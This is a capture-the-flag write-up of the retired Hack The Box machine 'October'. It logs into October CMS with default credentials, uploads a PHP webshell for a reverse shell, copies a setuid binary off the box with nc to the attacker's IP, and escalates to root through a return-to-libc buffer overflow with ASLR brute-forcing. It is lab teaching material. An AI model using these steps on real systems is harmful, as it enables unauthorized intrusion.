

# October

This is the write-up for the box October that got retired at the 1st July 2017.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.16    october.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/october.nmap 10.10.10.16
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the webpage we see a CMS called **October CMS** that seems to be up-to-date as the date on the lower bottom suggests and it uses the open-source forum software **Vanilla Forums**.


Lets look for hidden directories with _Gobuster_:
```markdown
gobuster dir -u http://10.10.10.16/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```markdown
/blog (Status: 200)
/forum (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/account (Status: 200)
/tests (Status: 301)
/storage (Status: 301)
/plugins (Status: 301)
/backend (Status: 302)
```

The findings with the Code 301 and 200 are uninteresting but the _/backend_ forwards us to _/backend/backend/auth/signin_ where we get a login page.
Trying the default credentials **admin / admin** we get logged in.

Now we can upload any PHP Webshell (mine listens on my IP and port 9001):


Browsing to the file starts a reverse shell on the box as the user www-data and we can read the user flag.

## Privilege Escalation

We search for files that have the setuid bit set:
```markdown
find / -perm -4000 2>/dev/null
```

One binary that sticks out is called **/usr/local/bin/ovrflw** and this is what we want to use. Lets upload it to our local machine to examine it.
```markdown
# Local machine:
nc -l -p 999 > ovrflw

# October box:
nc 10.10.14.8 999 < /usr/local/bin/ovrflw
```

Before examining binaries we should get a machine that is similar to the box to get the best results when doing Binary Analysis.
In this case the October box is **Ubuntu 14.04.5 LTS** and **32-bit** and we need a machine that meets these conditions where we will test all of this.

### Binary Exploitation

When executing the _ovrflw_ binary it tells us that it wants an input string. Giving it any input it does nothing. But giving it for example 200 times the character "A" it outputs a **Segmentation Fault**.

```markdown
./ovrflw `python -c 'print "A"*200'`
Segmentation fault
```

This is the proof that we need to exploit a _Buffer Overflow_ vulnerability.

When analyzing the libraries we get the following output:
```markdown
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb77c7000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb760d000)
        /lib/ld-linux.so.2 (0x80034000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb7795000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75db000)
        /lib/ld-linux.so.2 (0x800e9000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb77cc000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7612000)
        /lib/ld-linux.so.2 (0x8005d000)
```

I executed it several times to see if the addresses change and they do which means that _ASLR_ is active.
We can deactivate that on our local machine to make analysis easier for us:
```markdown
echo 0 > /proc/sys/kernel/randomize_va_space
```

To identify where the Buffer Overflow occurs we need to create a unique pattern:
```markdown
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
```
```markdown
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Nothing in this pattern repeats so we will use it to identify where the Buffer Overflow happens.

#### Debugging the binary

We will debug the binary with **GDB** with the _Peda_ extension installed.
```markdown
gdb ./ovrflw
```
```markdown
gdb-peda$ b main
Breakpoint 1 at 0x8048480
```


As we can see with `checksec` the **NX (No eXecute)** is enabled which is **Data Execution Prevention (DEP)** so we can't execute shellcode and jump to it.

Now we execute it with the unique pattern we created:




The program crashes at 0x64413764.

```markdown
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 64413764

[] Exact match at offset 112
```

Which is at 112 bytes where we start to overwrite EIP.

#### Exploiting the binary

We can test if this is true with this small Python script:
```python
import struct

buf = "A" * 112
buf += struct.pack("<I",0xd3adc0d3)

print(buf)
```

After running the binary with this it breaks at 0xd3adc0d3 as we expected:


We are going to do a **Return-to-libc Attack** because of the DEP protection so we need to drop the memory location to the system syscall and have that point to a string we control to execute the code. So we are never executing code off the stack but let a instruction appear out of nowhere.

Before we can write a script we need to following information
- Memory address of system
  - `gdb-peda$ p system`
- Memory address of exit
  - `gdb-peda$ p exit`
- Memory address of /bin/sh
  - `gdb-peda$ searchmem /bin/sh`


Now we have enough information to write a script to exploit this. This script is in this folder called **october-bof.py**.
```markdown
./ovrflw `python october-bof.py`
```

After running this on our test machine it prompts us a shell.

#### Brute-Forcing ASLR

This script won't work on the box because ASLR will change the addresses so we need to bypass that.

If we analyze the output of the random addresses on the box we can see that it doesn't change by that much:
```markdown
for i in `seq 0 20`; do ldd ovrflw | grep libc; done

# Output
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c3000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75e8000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75da000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7557000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7566000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7630000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7583000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75fb000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb758e000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7607000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7570000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75bb000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb759a000)
(...)
```

| 1 bit | 2 bit | 3 bit | 4 bit | 5 bit | 6 bit | 7 bit | 8 bit |
|-------|-------|-------|-------|-------|-------|-------|-------|
|   B   |   7   | 5 / 6 | 0 - F | 0 - F |   0   |   0   |   0   |

- 3rd bit has 2 possible values
- 4th bit has 16 possible values
- 5th bit has 16 possible values

So if we run this binary **512** times there is a chance that we hit the exact address and **Brute-Force ASLR**.
First we need this information because the addresses are not the same as on the test machine:
- Offset address of system
  - `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
    - system@@GLIBC_2.0: 0x00040310
- Offset address of exit
  - `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
    - exit@@GLIBC_2.0: 0x00033260
- Memory address of /bin/sh
  - `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`
    - /bin/sh: 0x00162bac

We will modify the script and I call it **october-aslr-bof.py** that we will run on the box:
```markdown
python october-aslr-bof.py
```

The script brute-forces the addresses and when it hits the correct one we get a shell as root!
